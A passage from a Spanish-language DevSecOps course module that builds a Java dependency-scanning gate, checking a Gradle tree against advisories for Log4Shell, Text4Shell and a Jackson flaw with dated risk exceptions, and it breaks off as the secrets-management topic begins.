






# Módulo 1: DevSecOps: dependencias, secretos, pipeline, SBOM y pruebas de seguridad

**Entorno comprobado para esta edición (2026-11-24):** OpenJDK 25.0.5.1 en Linux x86_64 y H2 2.3.232 para el
servicio vulnerable del Tema 5. Todas las herramientas de este módulo se escriben con el JDK (`javax.crypto`,
`java.security`, `java.util.jar`, la API de árboles de `javac`, `HttpClient` y `HttpServer`) y se ejecutan con
`java Programa.java`. Todas las transcripciones son literales de esa ejecución, en `/home/estudiante/labs/seguridad/devsecops`
(tu `~/labs/seguridad/devsecops`). Cambian en cada ejecución, a propósito, los textos cifrados y las claves del Tema 2.
Trivy, OWASP Dependency-Check, ZAP, Vault, SOPS y GitHub Actions se describen en las secciones «Del laboratorio a
producción» y **no se ejecutaron** en esta edición: el equipo de referencia no tenía Docker ni acceso a sus registros.

El Módulo 0 enseñó a proteger el código que tú escribes: contraseñas, criptografía, validación. Pero la mayor parte
del código que llega a producción no lo escribiste tú: son dependencias, imágenes base, acciones del pipeline y
herramientas de construcción. Y los secretos que tu aplicación necesita tienen que viajar desde algún lugar hasta el
servidor sin quedar en el repositorio. **DevSecOps** es llevar esas comprobaciones al flujo diario de desarrollo, de
modo que cada cambio pase por puertas automáticas que dicen «sí» o «no» con un código de salida. En este módulo
construyes cada puerta con Java, para entender qué hace por dentro la herramienta profesional que la reemplaza.

**Al terminar este módulo podrás:**
- encontrar dependencias vulnerables, también las transitivas, y bloquear el pipeline con una política de severidad y
  excepciones con fecha de vencimiento;
- cifrar los secretos de configuración con cifrado de sobre, detectar su manipulación y rotar la clave maestra;
- revisar un workflow de CI contra reglas de menor privilegio y explicar cada riesgo;
- generar un SBOM, verificar con él la integridad de los artefactos y responder «¿estoy afectado?» en segundos;
- distinguir lo que encuentran SAST, DAST y SCA, con un analizador de cada tipo;
- reconocer los puertos y servicios expuestos de tu propio laboratorio.

**Esquema del módulo:** Tema 1 (dependencias y puerta del pipeline) → Tema 2 (secretos) → Tema 3 (menor privilegio en
CI/CD) → Tema 4 (SBOM e integridad) → Tema 5 (SAST y DAST) → Tema 6 (reconocimiento) → Proyecto 18 (el pipeline
seguro del inventario).

**Qué necesitas saber antes:** del Módulo 0 de este curso, **amenaza**, **riesgo** y **límite de confianza** (Tema 1),
**hash criptográfico** (Tema 2), **cifrado simétrico**, **AES-GCM**, **nonce** y **secreto** (Tema 3) e **inyección SQL**
y **XSS** (Tema 4). De Fundamentos, **código de salida** (Módulo 0, Tema 4), **integración continua** (Módulo 4, Tema 4)
y **contenedor** (Módulo 5, Tema 4). Del curso SQL, **consulta parametrizada** (Módulo 0, Tema 2).


## Aprende construyendo


### Tema 1: Dependencias vulnerables: análisis de composición y la puerta del pipeline · Avanzado · 60 min

<details open>
<summary><strong>Capa 1 — Lectura</strong></summary>

#### Objetivos
Al terminar este tema podrás:
- recorrer un árbol de dependencias y encontrar las vulnerables, aunque lleguen de forma transitiva;
- decidir si una versión está afectada con el rango «desde» y «corregida en» de un aviso;
- clasificar cada hallazgo por severidad CVSS y aplicar una política que bloquea con un código de salida;
- registrar una excepción temporal con responsable y fecha de vencimiento, y ver cómo vuelve a bloquear al vencer.

**Conceptos clave:** SCA, dependencia directa y transitiva, CVE, aviso de seguridad, rango afectado, CVSS y severidad, puerta de calidad, excepción con vencimiento

#### El problema
El inventario usa una librería interna de auditoría que alguien agregó hace dos años. El `build.gradle.kts` no
menciona `log4j` por ningún lado, y aun así un cliente reporta que el servicio es vulnerable a Log4Shell. Además, hay
una vulnerabilidad de severidad alta en Jackson que el equipo decidió aceptar «por ahora», pero nadie recuerda hasta
cuándo. ¿Cómo sabes qué código ajeno ejecutas, y cómo evitas que un riesgo aceptado se olvide?

Este tema usa el **código de salida** (Fundamentos, Módulo 0, Tema 4), la **integración continua** (Fundamentos,
Módulo 4, Tema 4) y el **riesgo** (Tema 1 del Módulo 0 de este curso).

#### Glosario del tema

**SCA (análisis de composición de software)**
- **Definición técnica:** análisis que identifica los componentes de terceros de una aplicación y sus versiones, y los compara con bases de vulnerabilidades y licencias conocidas.
- **En palabras sencillas:** revisar la lista de ingredientes contra la lista de ingredientes retirados del mercado.
- **Dónde se rompe la comparación:** la lista de ingredientes de un software tiene cientos de entradas que tú no elegiste.
- **Ejemplo:** `Sca.java` cruza `dependencias.txt` con `avisos.csv`.
- **Error típico:** revisar solo las dependencias del archivo de construcción y no las que ellas traen.

**dependencia directa y transitiva**
- **Definición técnica:** una dependencia directa está declarada en tu proyecto; una transitiva la trae otra dependencia, a cualquier profundidad.
- **En palabras sencillas:** lo que compraste, y lo que venía adentro de lo que compraste.
- **Dónde se rompe la comparación:** puedes no saber que «viene adentro» hasta que lo buscas en el árbol.
- **Ejemplo:** `log4j-core:2.14.1` llega por `com.empresa:auditoria:3.2.0`; la ruta lo muestra.
- **Error típico:** buscar `log4j` con `grep` en `build.gradle.kts` y concluir que no se usa.

**CVE**
- **Definición técnica:** identificador público y único de una vulnerabilidad divulgada, con el formato `CVE-año-número`, asignado por el programa CVE.
- **En palabras sencillas:** el número de expediente de una falla conocida.
- **Dónde se rompe la comparación:** el número no dice cuán grave es ni qué versiones afecta; eso está en el aviso.
- **Ejemplo:** `CVE-2021-44228` es Log4Shell.
- **Error típico:** buscar solo por nombre popular («Log4Shell») y perder las variantes con otro número, como `CVE-2021-45046`.

**aviso de seguridad (*advisory*)**
- **Definición técnica:** registro que describe una vulnerabilidad para un paquete concreto: identificadores, rangos de versiones afectadas, versión corregida, severidad y referencias. Bases como OSV, GitHub Advisory Database y NVD los publican.
- **En palabras sencillas:** la ficha del retiro del mercado: qué lote, desde cuándo, y qué lote ya está bien.
- **Dónde se rompe la comparación:** distintas bases pueden dar severidades o rangos ligeramente distintos para el mismo CVE.
- **Ejemplo:** una línea de `avisos.csv`: paquete, «desde», «corregida en», CVSS y resumen.
- **Error típico:** usar una base desactualizada: un escáner es tan bueno como sus datos.

**rango afectado**
- **Definición técnica:** intervalo de versiones vulnerables, normalmente desde una versión incluida hasta la primera versión corregida, excluida.
- **En palabras sencillas:** «del lote 2.0 al anterior al 2.15.0».
- **Dónde se rompe la comparación:** las versiones no se comparan como texto: `2.9` es menor que `2.13`, aunque «9» sea mayor que «1».
- **Ejemplo:** `comparar("2.13.1", "2.13.2.1")` es negativo: la versión está dentro del rango.
- **Error típico:** comparar versiones con `String.compareTo`: `"2.9.0".compareTo("2.13.0")` dice que 2.9 es mayor.

**CVSS y severidad**
- **Definición técnica:** el CVSS (*Common Vulnerability Scoring System*) asigna a una vulnerabilidad un puntaje de 0 a 10; las bandas usuales son baja (< 4), media (4 a 6.9), alta (7 a 8.9) y crítica (9 a 10).
- **En palabras sencillas:** la nota de gravedad de la falla.
- **Dónde se rompe la comparación:** mide la falla en general, no en tu sistema: una crítica en una función que no usas puede pesar menos que una alta expuesta a internet.
- **Ejemplo:** Log4Shell tiene 10.0; la de Jackson de este tema, 7.5.
- **Error típico:** tratar el puntaje como la decisión; es una entrada para la decisión, junto con la exposición real.

**puerta de calidad (*quality gate*)**
- **Definición técnica:** paso automático del pipeline que evalúa un criterio y termina con código distinto de 0 si no se cumple, lo que detiene el resto del pipeline.
- **En palabras sencillas:** el torniquete: pasa o no pasa.
- **Dónde se rompe la comparación:** un torniquete que se puede saltar con un clic no es un torniquete; la regla debe estar en la configuración protegida del repositorio.
- **Ejemplo:** `puerta: FALLA con 3 hallazgo(s) bloqueante(s)` y `salida: 1`.
- **Error típico:** una herramienta que imprime advertencias y termina siempre en 0: nadie las lee.

**excepción con vencimiento**
- **Definición técnica:** aceptación documentada de un riesgo concreto, con identificador, responsable, motivo y fecha límite, después de la cual la puerta vuelve a bloquear.
- **En palabras sencillas:** un permiso temporal firmado, que se vence solo.
- **Dónde se rompe la comparación:** un permiso de papel se olvida en un cajón; uno con fecha en el repositorio vuelve a aparecer en el pipeline.
- **Ejemplo:** `CVE-2020-36518;2026-12-31;equipo-inventario;...` deja pasar la de Jackson hasta fin de año.
- **Error típico:** ignorar el hallazgo para siempre en la configuración del escáner, sin fecha ni dueño.

#### ► CÓMO FUNCIONA
El analizador lee el árbol de dependencias tal como lo imprime Gradle: la sangría dice quién trae a quién, y una
flecha `pedida -> resuelta` indica qué versión ganó. Para cada dependencia busca avisos del mismo paquete cuyo rango
contenga su versión. Cada hallazgo se clasifica por severidad y se compara con la política: lo crítico y lo alto
bloquea, salvo que haya una excepción vigente. Al final, el código de salida decide si el pipeline sigue.



#### Problema resuelto 1.1
Analiza el árbol de dependencias del inventario contra cuatro avisos reales y aplica la política.

**Razonamiento:**
1. El árbol tiene el formato de `gradle dependencies`: `+---` y `\---` marcan cada dependencia y su posición indica la
   profundidad (5 caracteres por nivel). Una pila con los antecesores da la ruta completa.
2. Los avisos usan datos públicos de los CVE: paquete, primera versión afectada, versión corregida y CVSS.
3. Las versiones se comparan número por número; una versión corta se completa con ceros (`2.15` = `2.15.0`).
4. La fecha se pasa como argumento para que la salida del libro sea reproducible; en el pipeline se usaría la de hoy.

```text
# dependencias.txt
com.empresa:inventario:1.0.0
+--- com.empresa:auditoria:3.2.0
|    \--- org.apache.logging.log4j:log4j-core:2.14.1
|         \--- org.apache.logging.log4j:log4j-api:2.14.1
+--- com.fasterxml.jackson.core:jackson-databind:2.13.1
|    \--- com.fasterxml.jackson.core:jackson-core:2.13.1
+--- org.apache.commons:commons-text:1.9
|    \--- org.apache.commons:commons-lang3:3.11
\--- com.h2database:h2:2.3.232
```

```text
# avisos.csv
# id;paquete;desde (incluida);corregida en;cvss;resumen
CVE-2021-44228;org.apache.logging.log4j:log4j-core;2.0;2.15.0;10.0;ejecución remota de código con búsquedas JNDI en mensajes de registro (Log4Shell)
CVE-2021-45046;org.apache.logging.log4j:log4j-core;2.0;2.16.0;9.0;la corrección de 2.15.0 era incompleta en configuraciones no predeterminadas
CVE-2022-42889;org.apache.commons:commons-text;1.5;1.10.0;9.8;la interpolación de variables puede ejecutar código (Text4Shell)
CVE-2020-36518;com.fasterxml.jackson.core:jackson-databind;2.13.0;2.13.2.1;7.5;JSON muy anidado agota la pila (denegación de servicio)
```

```text
# excepciones.txt
# id;vence (incluido);responsable;motivo
CVE-2020-36518;2026-12-31;equipo-inventario;solo recibimos JSON de servicios internos con tamaño limitado; actualizar en el sprint 48
```

```java
// Sca.java — análisis de composición de software: árbol de dependencias contra una base de avisos
import java.time.LocalDate;

record Dependencia(String grupoArtefacto, String version, List<String> ruta) {
}

record Aviso(String id, String paquete, String desde, String corregida, double cvss, String resumen) {
}

/** Compara versiones numéricas punto a punto: 2.13.1 < 2.13.2.1 < 2.15.0. */
int comparar(String a, String b) {
    String[] x = a.split("\\."), y = b.split("\\.");
    for (int i = 0; i < Math.max(x.length, y.length); i++) {
        int dx = i < x.length ? Integer.parseInt(x[i]) : 0;
        int dy = i < y.length ? Integer.parseInt(y[i]) : 0;
        if (dx != dy) return Integer.compare(dx, dy);
    }
    return 0;
}

String severidad(double cvss) {
    return cvss >= 9 ? "CRÍTICA" : cvss >= 7 ? "ALTA" : cvss >= 4 ? "MEDIA" : "BAJA";
}

/** Lee el árbol de Gradle: la sangría dice de quién depende cada línea. */
List<Dependencia> leerArbol(Path archivo) throws IOException {
    List<Dependencia> resultado = new ArrayList<>();
    List<String> pila = new ArrayList<>();
    for (String linea : Files.readAllLines(archivo)) {
        int marca = Math.max(linea.indexOf("+--- "), linea.indexOf("\\--- "));
        if (marca < 0) {                                   // la raíz: el proyecto
            pila.add(linea.trim());
            continue;
        }
        int nivel = marca / 5 + 1;
        String coordenada = linea.substring(marca + 5).trim();
        while (pila.size() > nivel) pila.removeLast();
        pila.add(coordenada);
        int dosPuntos = coordenada.lastIndexOf(':');
        String version = coordenada.substring(dosPuntos + 1);
        if (version.contains(" -> ")) {                    // Gradle: «pedida -> resuelta»; vale la resuelta
            version = version.substring(version.indexOf(" -> ") + 4);
        }
        resultado.add(new Dependencia(coordenada.substring(0, dosPuntos), version, List.copyOf(pila)));
    }
    return resultado;
}

List<Aviso> leerAvisos(Path archivo) throws IOException {
    return Files.readAllLines(archivo).stream().filter(l -> !l.startsWith("#") && !l.isBlank())
            .map(l -> l.split(";", 6))
            .map(c -> new Aviso(c[0], c[1], c[2], c[3], Double.parseDouble(c[4]), c[5])).toList();
}

Map<String, LocalDate> leerExcepciones(Path archivo) throws IOException {
    Map<String, LocalDate> vence = new HashMap<>();
    if (Files.exists(archivo)) {
        for (String l : Files.readAllLines(archivo)) {
            if (l.startsWith("#") || l.isBlank()) continue;
            String[] c = l.split(";", 4);
            vence.put(c[0], LocalDate.parse(c[1]));
        }
    }
    return vence;
}

void main(String[] args) throws IOException {
    Path arbol = Path.of(args.length > 0 ? args[0] : "dependencias.txt");
    LocalDate hoy = args.length > 1 ? LocalDate.parse(args[1]) : LocalDate.now();
    var deps = leerArbol(arbol);
    var avisos = leerAvisos(Path.of("avisos.csv"));
    var excepciones = leerExcepciones(Path.of("excepciones.txt"));

    int bloqueantes = 0;
    IO.println(deps.size() + " dependencias analizadas (" + deps.stream().filter(d -> d.ruta().size() > 2).count()
            + " transitivas), fecha " + hoy);
    for (Dependencia d : deps) {
        for (Aviso a : avisos) {
            boolean afecta = a.paquete().equals(d.grupoArtefacto())
                    && comparar(d.version(), a.desde()) >= 0 && comparar(d.version(), a.corregida()) < 0;
            if (!afecta) continue;
            String sev = severidad(a.cvss());
            LocalDate vence = excepciones.get(a.id());
            String decision;
            if (vence != null && !hoy.isAfter(vence)) {
                decision = "aceptada hasta " + vence;
            } else if (sev.equals("CRÍTICA") || sev.equals("ALTA")) {
                decision = vence != null ? "BLOQUEA (la excepción venció el " + vence + ")" : "BLOQUEA";
                bloqueantes++;
            } else {
                decision = "aviso";
            }
            IO.println(String.format(Locale.ROOT, "%-15s %-8s %4.1f  %s:%s -> corregida en %s  [%s]",
                    a.id(), sev, a.cvss(), d.grupoArtefacto().substring(d.grupoArtefacto().indexOf(':') + 1),
                    d.version(), a.corregida(), decision));
            IO.println("                ruta: " + String.join(" > ", d.ruta()));
        }
    }
    IO.println(bloqueantes == 0 ? "puerta: PASA" : "puerta: FALLA con " + bloqueantes + " hallazgo(s) bloqueante(s)");
    System.exit(bloqueantes == 0 ? 0 : 1);
}
```

```text
$ java Sca.java dependencias.txt 2026-11-24; echo "salida: $?"
8 dependencias analizadas (4 transitivas), fecha 2026-11-24
CVE-2021-44228  CRÍTICA  10.0  log4j-core:2.14.1 -> corregida en 2.15.0  [BLOQUEA]
                ruta: com.empresa:inventario:1.0.0 > com.empresa:auditoria:3.2.0 > org.apache.logging.log4j:log4j-core:2.14.1
CVE-2021-45046  CRÍTICA   9.0  log4j-core:2.14.1 -> corregida en 2.16.0  [BLOQUEA]
                ruta: com.empresa:inventario:1.0.0 > com.empresa:auditoria:3.2.0 > org.apache.logging.log4j:log4j-core:2.14.1
CVE-2020-36518  ALTA      7.5  jackson-databind:2.13.1 -> corregida en 2.13.2.1  [aceptada hasta 2026-12-31]
                ruta: com.empresa:inventario:1.0.0 > com.fasterxml.jackson.core:jackson-databind:2.13.1
CVE-2022-42889  CRÍTICA   9.8  commons-text:1.9 -> corregida en 1.10.0  [BLOQUEA]
                ruta: com.empresa:inventario:1.0.0 > org.apache.commons:commons-text:1.9
puerta: FALLA con 3 hallazgo(s) bloqueante(s)
salida: 1
```

**Explicación por partes.**
- Líneas 11–19: `comparar` convierte cada parte a número. Así `2.13.1` queda por debajo de `2.13.2.1`.
- Líneas 21–23: las bandas de severidad del CVSS.
- Líneas 26–46: la profundidad sale de la posición de la marca (`marca / 5 + 1`, línea 35); la pila se recorta hasta
  ese nivel y la ruta es la pila completa.
- Líneas 79–80: un aviso afecta si el paquete coincide y la versión está en `[desde, corregida)`.
- Líneas 85–93: primero la excepción vigente; si no hay, lo crítico y lo alto bloquean.
- La salida muestra lo que `grep` no habría encontrado: Log4Shell llega por `auditoria`. Y la de Jackson no bloquea:
  tiene excepción hasta el 31 de diciembre.

#### Problema resuelto 1.2
Corrige el árbol: fuerza `log4j-core` a 2.17.1 con una restricción de Gradle (porque no puedes cambiar la librería de
auditoría) y sube `commons-text` a 1.10.0. Después, ejecuta la misma puerta en una fecha posterior al vencimiento.

**Razonamiento:**
1. En Gradle, una restricción eleva una versión transitiva sin tocar la librería que la trae; el árbol lo muestra con
   la flecha `2.14.1 -> 2.17.1`. Esta es la restricción en `build.gradle.kts` (no se ejecutó en esta edición):

```kotlin
dependencies {
    constraints {
        implementation("org.apache.logging.log4j:log4j-core:2.17.1") {
            because("CVE-2021-44228 y CVE-2021-45046")
        }
    }
}
```

2. La primera versión del analizador tomaba como versión todo lo que estaba después de los dos puntos, flecha
   incluida. Ese error se ve en la salida y se corrige en las líneas 40–43.
3. La puerta se ejecuta dos veces sobre el árbol corregido: hoy, y el 5 de enero de 2027.

```text
# dependencias-corregidas.txt
com.empresa:inventario:1.0.1
+--- com.empresa:auditoria:3.2.0
|    \--- org.apache.logging.log4j:log4j-core:2.14.1 -> 2.17.1
|         \--- org.apache.logging.log4j:log4j-api:2.17.1
+--- com.fasterxml.jackson.core:jackson-databind:2.13.1
|    \--- com.fasterxml.jackson.core:jackson-core:2.13.1
+--- org.apache.commons:commons-text:1.10.0
|    \--- org.apache.commons:commons-lang3:3.12.0
\--- com.h2database:h2:2.3.232
```

Con la primera versión del analizador, que no entendía la flecha, el árbol corregido seguía bloqueando:

```text
$ java Sca.java dependencias-corregidas.txt 2026-11-24; echo "salida: $?"
8 dependencias analizadas (4 transitivas), fecha 2026-11-24
CVE-2021-44228  CRÍTICA  10.0  log4j-core:2.14.1 -> 2.17.1 -> corregida en 2.15.0  [BLOQUEA]
                ruta: com.empresa:inventario:1.0.1 > com.empresa:auditoria:3.2.0 > org.apache.logging.log4j:log4j-core:2.14.1 -> 2.17.1
CVE-2021-45046  CRÍTICA   9.0  log4j-core:2.14.1 -> 2.17.1 -> corregida en 2.16.0  [BLOQUEA]
                ruta: com.empresa:inventario:1.0.1 > com.empresa:auditoria:3.2.0 > org.apache.logging.log4j:log4j-core:2.14.1 -> 2.17.1
CVE-2020-36518  ALTA      7.5  jackson-databind:2.13.1 -> corregida en 2.13.2.1  [aceptada hasta 2026-12-31]
                ruta: com.empresa:inventario:1.0.1 > com.fasterxml.jackson.core:jackson-databind:2.13.1
puerta: FALLA con 2 hallazgo(s) bloqueante(s)
salida: 1
```

Con la versión corregida (la del Problema resuelto 1.1), hoy y después del vencimiento:

```text
$ java Sca.java dependencias-corregidas.txt 2026-11-24; echo "salida: $?"
8 dependencias analizadas (4 transitivas), fecha 2026-11-24
CVE-2020-36518  ALTA      7.5  jackson-databind:2.13.1 -> corregida en 2.13.2.1  [aceptada hasta 2026-12-31]
                ruta: com.empresa:inventario:1.0.1 > com.fasterxml.jackson.core:jackson-databind:2.13.1
puerta: PASA
salida: 0
$ java Sca.java dependencias-corregidas.txt 2027-01-05; echo "salida: $?"
8 dependencias analizadas (4 transitivas), fecha 2027-01-05
CVE-2020-36518  ALTA      7.5  jackson-databind:2.13.1 -> corregida en 2.13.2.1  [BLOQUEA (la excepción venció el 2026-12-31)]
                ruta: com.empresa:inventario:1.0.1 > com.fasterxml.jackson.core:jackson-databind:2.13.1
puerta: FALLA con 1 hallazgo(s) bloqueante(s)
salida: 1
```

**Explicación por partes.**
- El fallo de la primera versión es instructivo: `2.14.1 -> 2.17.1` se comparó como si fuera `2.14.1`, porque la
  comparación se detuvo antes de llegar a la parte con la flecha. El escáner informaba una vulnerabilidad ya corregida.
  Un falso positivo así enseña al equipo a ignorar la puerta.
- Con la versión resuelta, Log4j y commons-text desaparecen de la salida y la puerta pasa.
- El 5 de enero la misma excepción ya no vale y la puerta falla sola, sin que nadie tenga que acordarse.

> **Error común.** Analizar el archivo de construcción en lugar del árbol resuelto. `build.gradle.kts` dice lo que
> pediste; lo que se ejecuta es lo que Gradle resolvió, con las transitivas y las versiones que ganaron los conflictos.

> **Error común.** Actualizar a la primera versión «corregida» del aviso más visible. `2.15.0` corregía
> `CVE-2021-44228`, pero tenía `CVE-2021-45046`. Revisa todos los avisos del paquete y sube a la versión que los
> cierra todos.

> **Buena práctica.** Cada excepción lleva identificador, responsable, motivo y fecha. La fecha corta (semanas, no
> años) obliga a revisar la decisión con información nueva.

> **Prevenir errores.** Ejecuta la puerta también de forma programada (por ejemplo, cada noche) y no solo en cada
> cambio: un aviso nuevo convierte en vulnerable a un código que nadie tocó.

#### Del laboratorio a producción
OWASP Dependency-Check tiene un plugin de Gradle (`dependencyCheckAnalyze`) que falla la construcción por encima de un
CVSS configurado; Trivy analiza también imágenes de contenedor (`trivy image --exit-code 1 --severity CRITICAL,HIGH`);
Dependabot y Renovate abren automáticamente los pull requests de actualización. Todas usan bases de avisos como las de
`avisos.csv`, pero con cientos de miles de entradas y actualización diaria.

#### Checkpoint 1.1
¿Afecta `CVE-2021-44228` a `log4j-core` 2.15.0? ¿Y `CVE-2021-45046`?

Respuesta: la primera no: 2.15.0 es su versión corregida (excluida del rango). La segunda sí: su rango llega hasta
2.16.0 excluida, y 2.15.0 está dentro.

</details>

<details>
<summary><strong>Capa 2 — Construcción</strong></summary>

#### Paso 1 · Prepara la carpeta
Crea `mkdir -p ~/labs/seguridad/devsecops/sca && cd ~/labs/seguridad/devsecops/sca` y crea los cuatro archivos de
datos y `Sca.java`.

#### Paso 2 · Ejecuta la puerta
Ejecuta `java Sca.java dependencias.txt 2026-11-24; echo "salida: $?"` y comprueba tres bloqueantes y salida 1.

#### Paso 3 · Encuentra la transitiva
En la salida, señala la dependencia que no está declarada en el proyecto y la librería que la trae.

#### Paso 4 · Corrige y vuelve a ejecutar
Ejecuta la puerta sobre `dependencias-corregidas.txt` y comprueba `puerta: PASA`.

#### Paso 5 · Deja vencer la excepción
Repite con la fecha `2027-01-05` y comprueba el mensaje de excepción vencida y salida 1.

#### Resumen
- El **SCA** cruza tus componentes con **avisos de seguridad** identificados por **CVE**.
- Las **dependencias transitivas** son tan tuyas como las **directas**; se ven en el árbol resuelto.
- Un aviso define un **rango afectado**: desde una versión incluida hasta la corregida, excluida.
- El **CVSS** da la **severidad**; la política decide qué bloquea.
- La **puerta de calidad** se expresa con un código de salida.
- Una **excepción con vencimiento** acepta un riesgo por un tiempo y con un responsable.

#### Ejercicio verificable 1
Básico. Sin ejecutar: ¿afecta `CVE-2022-42889` a `commons-text` 1.4? ¿Y a 1.10.0?

Respuesta esperada: a 1.4 no, porque el rango empieza en 1.5; a 1.10.0 tampoco, porque es la versión corregida. En
`dependencias.txt`, con 1.9, sí.

#### Ejercicio verificable 2
Intermedio. Borra la línea de la excepción en `excepciones.txt` y ejecuta la puerta sobre el árbol corregido con fecha
`2026-11-24`. ¿Qué cambia?

Respuesta esperada: la de Jackson pasa a `[BLOQUEA]`, la última línea dice `puerta: FALLA con 1 hallazgo(s)
bloqueante(s)` y la salida es 1. Sin excepción, una severidad alta bloquea.

#### Ejercicio verificable 3
Reto. Agrega a `avisos.csv` el aviso real `CVE-2021-45105` de `log4j-core` (desde 2.0, corregida en 2.17.0, CVSS 5.9,
denegación de servicio por recursión). ¿Bloquea en el árbol inicial? ¿Y en el corregido?

Respuesta esperada: en el inicial aparece como `MEDIA` con la decisión `[aviso]` y no suma bloqueantes (siguen 3). En
el corregido no aparece: 2.17.1 ya está fuera del rango. La política decide qué hacer con lo medio; aquí, avisar.

#### En el trabajo
Desde Log4Shell, en diciembre de 2021, casi todas las empresas tienen una puerta de SCA en el pipeline y un proceso de
excepciones. Las preguntas de una revisión son: «¿qué versión resolvió Gradle?», «¿por qué ruta llega?», «¿quién
aceptó este riesgo y hasta cuándo?».

</details>

### Tema 2: Secretos de configuración: cifrado de sobre, manipulación y rotación · Avanzado · 55 min

<details open>
<summary><strong>Capa 1 — Lectura</strong></summary>

#### Objetivos
Al terminar este tema podrás:
- explicar por qué un secreto no va en el código ni en el repositorio en texto claro;
- cifrar los valores de un archivo de configuración con una clave de datos y envolver esa clave con una clave maestra;
- demostrar que AES-GCM con datos autenticados detecta valores intercambiados o alterados;
- rotar la clave maestra sin volver a cifrar los valores.

**Conceptos clave:** gestión de secretos, cifrado de sobre, clave de datos (DEK), clave maestra (KEK), envoltura de clave, datos autenticados adicionales (AAD), rotación de claves, KMS

#### El problema
La clave de la base y la de la pasarela de pagos están en `application.properties`, en el repositorio. Cualquiera con
